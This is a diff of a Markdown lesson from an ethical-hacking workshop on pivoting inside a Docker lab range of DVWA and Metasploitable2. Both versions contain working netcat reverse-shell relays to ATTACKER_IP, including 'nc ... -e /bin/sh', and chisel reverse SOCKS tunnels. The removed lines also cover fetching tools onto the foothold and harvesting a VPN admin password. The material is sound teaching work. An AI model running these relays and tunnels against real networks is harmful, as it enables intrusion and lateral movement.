

Before and after one commit to wocsa/WOCSA_Ethical_Hacking_Workshop, a Markdown page: Network/Pivoting/Pivoting_Lateral_Movement.md, 2 parts joined by grey strips. Shown at 80% size. Drawn GitHub-style.

````diff
--- a/Network/Pivoting/Pivoting_Lateral_Movement.md
+++ b/Network/Pivoting/Pivoting_Lateral_Movement.md
@@ -116,51 +138,51 @@ Notes:
 - This pivot is "static": every request is one curl invocation. Fine for enumeration and data theft, useless for interactive shells. The next pivots solve that.
 
 ## Pivot 2: Reverse shell relayed through DVWA with netcat
-metasploitable2 lives deep in the intranet: it cannot connect directly to your laptop, and you cannot connect to it. DVWA, however, is dual-homed. Use it as the middle box.
+Metasploitable2 has no published ports. Use tri-homed DVWA as the middle box. Docker bridge segmentation does not necessarily block outbound connections to your laptop: test that separately, rather than assuming there is no route.
 
-On your laptop (attacker), open a listener:
-```bash
-nc -lvp 4445
-```
-On DVWA (the middle box), start a listener that pipes everything to you:
-```bash
-docker exec cyberrange-dvwa sh -c 'nc -lvp 4444 | nc <ATTACKER_IP> 4445'
-```
-Replace `<ATTACKER_IP>` with an address DVWA can reach: your host's LAN IP or `host.docker.internal` (Docker Desktop).
+Use three terminals. Commands below use OpenBSD netcat syntax; the host listener on macOS also accepts `nc -l 4445`.
 
-Finally, on metasploitable2, fire the shell back through the relay (connect from your VPN access or from DVWA's curl to port 1524 - the built-in root bindshell, verified: `printf "id\n" | nc 10.5.20.12 1524` answers `uid=0(root)` - if you want a bootstrap shell first):
-```bash
-nc 10.5.20.20 4444 -e /bin/sh
-```
-Your `nc -lvp 4445` should receive the ms2 shell: `id` -> `uid=0(root)`. The command is relayed like this: `ms2 -> 10.5.20.20:4444 -> DVWA -> <ATTACKER_IP>:4445`.
+1. On your laptop, listen with `nc -l 4445`.
+2. On DVWA, run a bidirectional FIFO relay. Replace `ATTACKER_IP` with your host's LAN IP or `host.docker.internal` on Docker Desktop:
+   ```bash
+   docker exec -it cyberrange-dvwa sh -c '
+     d=$(mktemp -d)
+     trap "rm -rf $d" EXIT
+     mkfifo "$d/pipe"
+     nc -l 4444 <"$d/pipe" | nc ATTACKER_IP 4445 >"$d/pipe"
+   '
+   ```
+3. For a reproducible operator-assisted bootstrap, run:
+   ```bash
+   docker exec cyberrange-metasploitable2 nc 10.5.20.20 4444 -e /bin/sh
+   ```
+4. Type `id` in the laptop listener. Expect `uid=0(root)`. Type `exit` and stop any remaining relay/listener processes with Ctrl-C.
 
-For a fully interactive (bidirectional) relay, upgrade the middle box with a FIFO:
-```bash
-docker exec cyberrange-dvwa sh -c 'mkfifo /tmp/p; nc -lvp 4444 </tmp/p | nc <ATTACKER_IP> 4445 >/tmp/p'
-```
-Why the middle box matters: ms2 has no route to your laptop (segmentation), and you have no route to ms2 (no VPN). DVWA breaks the isolation because of its third leg - exactly the misconfiguration this workshop is about. Also note the OpenBSD `nc` on DVWA has no `-e`, so relays must use pipes/FIFOs; ms2's traditional netcat does have `-e`.
+The operator bootstrap is a simulation of prior code execution on the internal host; it is not evidence of exploitation. A simple `nc ... | nc ...` pipe only forwards one direction and cannot carry an interactive shell. DVWA's OpenBSD netcat has no `-e`; the traditional netcat in Metasploitable2 does.
 
 ## Pivot 3: Full dynamic SOCKS pivot
-A SOCKS proxy on the pivot lets you use **all** your local tools (`nmap`, `curl`, browsers) through the tunnel as if you were on DVWA. The classic tool is SSH:
+A reverse SOCKS tunnel lets laptop TCP clients reach internal services through DVWA without a VPN. Obtain matching [Chisel release binaries](https://github.com/jpillora/chisel/releases) for your laptop OS/CPU and DVWA's Linux CPU (`docker exec cyberrange-dvwa uname -m`). Unpack them before the session; an amd64 container needs the linux_amd64 binary even on an ARM laptop. Name the laptop binary `chisel` and the Linux binary `chisel-linux`.
+
+On the laptop, start the server (allow TCP 8082 through the lab host firewall):
 ```bash
-ssh -D 9050 user@10.5.20.12     # SOCKS proxy on localhost:9050
-proxychains nmap -sT -Pn 10.5.20.10
+chmod +x ./chisel
+./chisel server --reverse --port 8082 --auth workshop:lab-only
 ```
-But **DVWA has no SSH server**. This works against any SSH host (metasploitable2, sftpgo, the workstations) once you have credentials there.
+In another terminal, stage the client as the operator, then run it as the web account. Replace `ATTACKER_IP` as above:
+```bash
+docker cp ./chisel-linux cyberrange-dvwa:/tmp/chisel
+docker exec cyberrange-dvwa chmod 755 /tmp/chisel
+docker exec -it --user www-data cyberrange-dvwa /tmp/chisel client \
+  --auth workshop:lab-only http://ATTACKER_IP:8082 R:127.0.0.1:1080:socks
+```
+On the laptop:
+```bash
+curl --noproxy '' --socks5-hostname 127.0.0.1:1080 --max-time 10 http://10.5.20.10/
+```
+Expect the wiki HTML or an installation redirect. Configure the browser for SOCKS5 `127.0.0.1:1080` to explore the internal web services. For proxychains, explicitly configure `socks5 127.0.0.1 1080`; a bounded scan is `proxychains4 nmap -sT -Pn -n -p 80,22 10.5.20.12`. SOCKS does not carry nmap raw SYN scans or ICMP discovery. Stop the client/server after the exercise and remove `/tmp/chisel`.
 
-For DVWA itself, use its `python3` instead:
-- **Option A - reverse SOCKS with chisel** (DVWA can reach the Internet, it is in the DMZ). Download a static chisel binary with curl and run:
-  ```bash
-  # on your laptop
-  ./chisel server --reverse --port 8082
-  # on DVWA
-  curl -LO https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
-  gunzip chisel_1.9.1_linux_amd64.gz && chmod +x chisel_1.9.1_linux_amd64
-  ./chisel_1.9.1_linux_amd64 client <ATTACKER_IP>:8082 R:socks
-  # now on your laptop: proxychains curl http://10.5.20.10/
-  ```
-- **Option B - python3 relay scripts**: if internet is not available from DVWA, upload small `python3` TCP-relay/socks snippets through the DVWA **File Upload** module and run them with `python3 /tmp/relay.py`. The same FIFO trick as Pivot 2 generalized to many ports (a listener per intranet port, each piped to your host).
+SSH `-D` is an alternative only after the SSH endpoint is reachable. Direct `ssh -D ... 10.5.20.12` from an isolated laptop cannot establish the first pivot. SFTPGo is a file transfer service, not a general SSH shell/tunneling server.
 
 ## Pivot 4: Mint your own VPN peer (become an employee)
-Once DVWA is pwned, the cleanest lateral move is to stop pivoting altogether and become a legitimate network member. wg-easy's admin UI is reachable from the intranet leg (`10.5.20.2:51821`) and its API only needs Basic auth. The password lives in `CyberRange/.env` (`WG_ADMIN_PASSWORD`) - and, in the range, it is also leaked by grafana's provisioned Infinity datasource (default `admin`/`admin`, dashboard credentials for the 51821 UI). Get it either way, then from DVWA:
+This is an optional instructor-assisted comparison, not a required exploitation step. Start the VPN service separately, use an instructor-issued admin credential, and browse `http://10.5.20.2:51821` through the SOCKS browser. Log in, create a temporary `pivot-proof` peer, download its configuration, then activate it in WireGuard. The VPN endpoint must point to the reachable lab server and its UDP port must be accessible. Confirm intranet access, disconnect, then delete the temporary peer and local configuration.
 
@@ -228,4 +232,4 @@ Choose your own adventure, all from the pivoted position:
 - [Metasploitable2 guide](https://docs.rapid7.com/metasploitable/)
 
 # Summary report
-Pwned DVWA at `localhost:8081`, confirmed its intranet leg `10.5.20.20`, enumerated `10.5.20.0/24`, relayed HTTP and a root reverse shell from metasploitable2 through DVWA, established a SOCKS pivot, minted a wg-easy VPN peer via the verified API, and exfiltrated company mail from `10.5.10.13:8025` - while DMZ-only containers stayed locked out of the intranet.
+Record what you actually verified: image versions, attacker location, foothold identity, reachable ports, a command/response through the relay, a SOCKS HTTP response, and positive/negative isolation checks. Distinguish operator-assisted steps from exploitation. Record optional exercises skipped and remove temporary binaries, listeners and VPN peers.
````
Also changed, not shown: other parts of Network/Pivoting/Pivoting_Lateral_Movement.md (+35 -31 lines), README.md (+2 -0 lines).
